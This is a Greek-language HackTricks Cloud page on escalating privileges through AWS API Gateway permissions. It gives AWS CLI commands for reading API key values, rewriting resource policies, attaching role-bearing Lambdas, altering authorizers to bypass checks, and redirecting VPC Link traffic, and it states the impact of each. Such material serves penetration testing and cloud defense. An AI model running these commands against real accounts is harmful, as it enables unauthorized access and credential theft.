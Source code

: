 # AWS - Ανύψωση προνομίων Apigateway

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε κόλπα χάκινγκ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
{% endhint %}

## Apigateway

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Με αυτήν την άδεια μπορείτε να δημιουργήσετε κλειδιά API για τις διαμορφωμένες APIs (ανά περιοχή).
```bash
aws --region <region> apigateway create-api-key
```
**Πιθανή Επίδραση:** Δεν μπορείτε να πραγματοποιήσετε προνόμια αυξημένων δικαιωμάτων με αυτήν την τεχνική, αλλά ενδέχεται να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:GET`

Με αυτήν την άδεια μπορείτε να λάβετε τα δημιουργημένα κλειδιά API των παραμετροποιημένων API (ανά περιοχή).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Πιθανή Επίπτωση:** Δεν μπορείτε να πραγματοποιήσετε προνόμια προνομιούχου με αυτήν την τεχνική, αλλά ενδέχεται να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Με αυτές τις άδειες είναι δυνατή η τροποποίηση της πολιτικής πόρων ενός API για να δώσετε στον εαυτό σας πρόσβαση για να το καλέσετε και να καταχραστείτε την πιθανή πρόσβαση που μπορεί να έχει το API gateway (όπως η εκκίνηση ενός ευάλωτου λάμδα).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Συνήθως, δεν θα μπορέσετε να πραγματοποιήσετε άμεση αύξηση προνομίων με αυτήν την τεχνική, αλλά ενδέχεται να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τα δικαιώματα `apigateway:PutIntegration`, `apigateway:CreateDeployment` και `iam:PassRole` μπορεί **να προσθέσει μια νέα ενσωμάτωση σε ένα υπάρχον API Gateway REST API με μια συνάρτηση Lambda που έχει συνδεδεμένο ένα ρόλο IAM**. Ο επιτιθέμενος μπορεί στη συνέχεια **να ενεργοποιήσει τη συνάρτηση Lambda για να εκτελέσει αυθαίρετο κώδικα και ενδεχομένως να αποκτήσει πρόσβαση στους πόρους που σχετίζονται με τον ρόλο IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανή Επίπτωση**: Πρόσβαση σε πόρους που σχετίζονται με τον ρόλο IAM της Lambda λειτουργίας.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateAuthorizer` και `apigateway:CreateDeployment` μπορεί να **τροποποιήσει έναν υπάρχοντα ελεγκτή του API Gateway** για να παρακάμψει τους ελέγχους ασφαλείας ή να εκτελέσει αυθαίρετο κώδικα όταν γίνονται αιτήσεις στο API. 

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανή Επίπτωση**: Παράκαμψη ελέγχων ασφαλείας, μη εξουσιοδοτημένη πρόσβαση σε πόρους του API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

Ένας επιτιθέμενος με την άδεια `apigateway:UpdateVpcLink` μπορεί **να τροποποιήσει ένα υπάρχον VPC Link για να δείχνει σε ένα διαφορετικό Network Load Balancer, πιθανώς ανακατευθύνοντας την κυκλοφορία του ιδιωτικού API σε μη εξουσιοδοτημένους ή κακόβουλους πόρους**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Πιθανή Επίπτωση**: Μη εξουσιοδοτημένη πρόσβαση σε ιδιωτικούς πόρους του API, παρεμπόδιση ή διακοπή της κίνησης του API. 

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Συμμετέχετε** 💬 στην [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε κόλπα χάκινγκ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}
